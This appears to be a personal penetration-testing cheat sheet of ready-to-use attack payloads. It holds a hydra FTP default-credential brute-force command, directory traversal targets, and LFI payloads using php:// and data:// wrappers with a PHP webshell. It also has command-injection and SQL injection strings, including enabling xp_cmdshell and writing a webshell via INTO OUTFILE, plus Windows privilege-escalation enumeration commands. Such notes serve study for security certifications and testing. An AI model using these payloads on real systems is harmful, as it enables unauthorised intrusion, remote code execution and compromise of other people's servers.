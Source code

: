	FTP
		anonymous
		hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <IP> ftp
	
	Web attacks:
		XSS
		DirTraversal:
			C:\Windows\System32\drivers\etc\hosts
			C:\inetpub\wwwroot\web.config
			C:\inetpub\logs\LogFiles\W3SVC1\
			%2e%2e%2f
		LFI:
			<?php echo system($_GET['cmd']); ?>
			log file poisoning (UA)
			ls%20-la
			
			?page=php://filter/resource=asd.php
			?page=php://filter/convert.base64-encode/resource=asd.php
			?page=data://text/plain,<?php%20echo%20system('whoami');?>"
			?page=data://text/plain;base64,<base64 encoded PHP snippet>&cmd=whoami"
		RFI
		Upload:
			XXE
			XSS
			overwrite with dirtrav in filename
		Command injection
			cmd or ps: (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
		SQL
			' or 1=1 in (select @@version) -- //
			' union select version(),null -- 
			EXECUTE sp_configure 'show advanced options', 1;
			RECONFIGURE;
			EXECUTE sp_configure 'xp_cmdshell', 1;
			RECONFIGURE;
			EXECUTE xp_cmdshell 'whoami';
			' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
			
			
	
	PrivEsc Information Gathering:
		Username and hostname
		Group memberships of the current user
		Existing users and groups
		Operating system, version and architecture
		Network information
		Installed applications
		Running processes
	
		Windows:
			whoami
			whoami /groups
			systeminfo
			ipconfig /all
			route print
			netstat -ano
			net user <user>
	